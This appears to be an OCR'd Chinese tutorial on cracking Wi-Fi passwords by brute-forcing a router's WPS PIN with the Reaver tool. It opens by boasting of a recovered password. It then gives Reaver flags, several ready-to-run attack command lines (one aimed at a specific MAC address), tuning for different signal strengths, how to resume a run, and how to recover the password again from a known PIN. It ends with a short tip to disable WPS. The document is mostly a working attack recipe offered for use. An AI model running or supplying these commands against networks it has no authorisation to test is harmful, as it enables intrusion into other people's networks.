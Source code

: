       👹 njs236121 就是wifi密码了!!!!  等了8.8小时.












🔵 Reaver 命令详解

  reaver -i mon0 -b mac -S -v 
    -i 监听后接口名称
    -b 目标mac地址
    -a 自动检测目标AP最佳配置
    -S 使用最小的DH key（可以提高PJ速度）
    -vv 显示更多的非严重警告
    -d  即delay每穷举一次的闲置时间 预设为1秒
    -t  即timeout每次穷举等待反馈的最长时间
    -c  指定频道可以方便找到信号，如-c1 指定1频道

    示例: 
    🔸 reaver -i mon0 -b MAC -a -S –d9 –t9 -vv
    　 reaver -i wlan1 -b 54:E6:FC:35:C5:82 -S -N -vv -c 4

  　　应因状况调整参数（-c后面都已目标频道为1作为例子）
  　　目标信号非常好: reaver -i mon0 -b MAC -a -S -vv -d0 -c 1
  　　目标信号普通: reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1
  　　目标信号一般: reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

      在穷举的过程中，reaver会生成以路由mac地址为名的wpc文件,
      这个文件在kali系统中/etc/reaver/文件夹下。
      一时半会pin不出来，过段时间pin的时候命令加参数 -s file.wpc，就会根据之前的进度继续pin。

　 🔸 注意点：

　　1.一般reaver 前四位默认是从0开始，如果想从指定的数值开始爆破需要添加-p参数：
      -p 9000,这个意思就是从9000开始，只要不pin死路由器，可以多开几个窗口，从不同的数值开始。

　　2.最后pin完最后会显示WPS PIN(正确的pin码)和WPA PSK(wifi密码)，
      同时如果WPS功能没关，pin码没修改，无论怎样修改密码，都可以通过pin码获取wifi密码: 
      reaver -i mon0 -b mac -p pin码，来再次得到密码

　　3.一般pin的过快，会把路由器pin死，所以一般还会加上-d5 -t5参数，添加5秒延时，当然数值可以自己改。
 
　  4.防范措施：
　　  - WPS功能对个人基本上没啥作用，还是关了吧。
　　  - 现在的路由一般会有防pin措施，例如会有300秒pin限制，但这个是伪防pin,作用不是很大














